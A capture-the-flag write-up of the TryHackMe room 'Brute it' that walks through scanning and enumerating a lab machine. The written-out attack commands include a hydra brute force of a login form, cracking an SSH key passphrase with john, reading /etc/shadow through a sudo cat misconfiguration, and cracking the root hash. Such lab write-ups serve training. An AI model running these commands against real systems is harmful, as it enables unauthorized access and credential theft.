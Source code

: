 ```yaml
---
title: Brute it - Easy THM
date: 2023-11-12 08:11:31 +/-0800
categories: [writeup, tryhackme]
writeup: :title
permalink: /bruteit
tags: [thm, writeup, easy, linux, hash cracking, web, talace]     # TAG names should always be lowercase
---
```


- OS: Linux
- Difficulty: Easy
- Author: Talace🌌

## Scanning 👀

#### **Threader3000**
```bash
python3 threader3000.py

Port 80 is open
Port 22 is open
```
#### **nmap scan**
```bash
nmap -p80,22 -sV -sC -T4 -Pn -oA 10.10.205.60 10.10.205.60

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Enumeration 🧐

#### Starting by enumerate the website with **dirb** 🧐
```bash
dirb http://10.10.205.60/ /usr/share/wordlists/dirb/common.txt

http://ip/admin/
```
Found a form login on the /admin/

![loginForm](/assets/bruteit/loginform.png)

#### Let's brute force it with **hydra**
```bash
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.205.60 http-post-form "/admin/:user=admin&pass=^PASS^:Username or password invalid"
```

### Found the creds! 😼

![hydraBruteForce](/assets/bruteit/hydraBruteForce.png)

We now got access to this page, we have the user's **flag** (youhou!), a user name's **John**, and a **private key ssh**

![panelAdmin](/assets/bruteit/panelAdmin.png)

#### Let's use **ssh2john** to crack it! 🤠
```bash
echo 'private rsa key' >> id_rsa

ssh2john id_rsa > id_rsa.hash

john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

### **We got the password!**

![johnCrackRsa](/assets/bruteit/johnCrackRsa.png)

## Privilege escalation 🐧

Connect via ssh
```bash
chmod 400 id_rsa

ssh -i
```

#### Looking for sudo rights and found this banger!
```bash
sudo -l

(root) NOPASSWD: /bin/cat
```

Let's use it for our own!
```bash
LFILE=/etc/shadow

sudo cat "$LFILE"
```

Now that i can read /etc/shadow, i'm going to crack it with unshadow && john

#### unshadow & john
```bash
echo 'root:x:0:0:root:/root:/bin/bash' >> passwd.txt

echo 'root:hash' >> shadow.txt

unshadow passwd.txt shadow.txt > unshadow.txt
```

It's time to crack it!
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.txt
```

### And me able to get root! Brute it is pwned! 😼

![root](/assets/convertMyVideo/root.png)

## Resources 🤖
[GTFObins : https://gtfobins.github.io/gtfobins/cat/](https://gtfobins.github.io/gtfobins/cat/)